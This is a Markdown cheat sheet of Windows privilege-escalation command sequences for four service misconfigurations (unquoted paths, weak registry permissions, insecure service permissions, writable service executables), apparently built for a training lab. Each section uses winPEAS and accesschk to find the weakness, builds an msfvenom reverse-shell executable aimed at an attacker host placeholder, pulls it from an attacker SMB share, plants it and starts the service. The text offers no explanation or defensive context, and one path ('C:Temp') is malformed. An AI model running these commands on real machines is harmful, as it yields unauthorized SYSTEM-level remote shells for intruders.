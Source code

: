 
# UNQUOTED SERVICE PATH

```powershell
.\winPEAS64.exe servicesinfo
sc qc unquotedsvc
.\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP_ADDR> LPORT=<PORT> -f exe -o common.exe
copy \\<IP_ADDR>\kali\common.exe C:\Temp\common.exe
copy C:\Temp\common.exe "C:\Program Files\Unquoted Path Service\common.exe"
net start unquotedsvc
```

---

# WEAK REGISTRY PERMISSIONS

```powershell
.\winPEAS64.exe servicesinfo
sc qc regsvc
.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP_ADDR> LPORT=<PORT> -f exe -o reverse.exe
copy \\<IP_ADDR>\kali\reverse.exe C:\Temp\reverse.exe
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\Temp\reverse.exe /f
net start regsvc
```

---

# INSECURE SERVICE PERMISSIONS

```powershell
.\winPEAS64.exe servicesinfo
.\accesschk.exe /accepteula -uwcqv user daclsvc
sc qc daclsvc
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP_ADDR> LPORT=<PORT> -f exe -o reverse.exe
copy \\<IP_ADDR>\kali\reverse.exe C:\Temp\reverse.exe
sc config daclsvc binpath= "\"C:Temp\reverse.exe\""
net start daclsvc
```

---

# INSECURE SERVICE EXECUTABLES

```powershell
.\winPEAS64.exe servicesinfo
sc qc filepermsvc
.\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP_ADDR> LPORT=<PORT> -f exe -o reverse.exe
copy \\<IP_ADDR>\kali\reverse.exe C:\Temp\reverse.exe
copy C:\Temp\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
net start filepermsvc
```

---